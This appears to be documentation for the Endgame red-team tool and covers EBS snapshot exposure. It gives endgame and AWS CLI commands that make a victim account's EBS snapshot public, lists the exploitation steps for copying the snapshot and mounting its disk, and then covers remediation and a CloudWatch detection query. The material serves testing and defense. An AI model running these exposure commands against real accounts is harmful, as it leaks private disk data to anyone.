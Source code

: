 # EBS Snapshot Exposure

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*
export SNAPSHOT_ID=snap-1234567890abcdef0

endgame expose --service ebs --name $SNAPSHOT_ID
```

* To expose the resource using the AWS CLI, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 modify-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission \
    --operation-type add \
    --group-names all
```

* To verify that the snapshot has been shared with the public, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 describe-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission
```

* Observe that the contents match the example shown below.

## Example

The response of `aws ec2 describe-snapshot-attribute` will match the below, indicating that the EBS snapshot is public.

```json
{
    "SnapshotId": "snap-066877671789bd71b",
    "CreateVolumePermissions": [
        {
            "Group": "all"
        }
    ]
}
```

## Exploitation

After an EBS Snapshot is made public, an attacker can then:
* [copy the public snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html) to their own account
* Use the snapshot to create an EBS volume
* Attach the EBS volume to their own EC2 instance and browse the contents of the disk, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that EBS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the EBS Snapshot.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EBS Snapshots**: Tightly control access to the following IAM actions:
  - [ec2:ModifySnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_ModifySnapshotAttribute.html): _Grants permission to add or remove permission settings for a snapshot_
  - [ec2:DescribeSnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshotAttribute.html): _Grants permission to describe an attribute of a snapshot. This includes information on which accounts the snapshot has been shared with._
  - [ec2:DescribeSnapshots](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshots.html): _Grants permission to describe one or more EBS snapshots_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='ec2.amazonaws.com' and (eventName='ModifySnapshotAttribute' and requestParameters.attributeType='CREATE_VOLUME_PERMISSION') 
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [Sharing an Unencrypted Snapshot using the Console](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html#share-unencrypted-snapshot)
* [Share a snapshot using the command line](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html)
* [aws ec2 copy-snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html)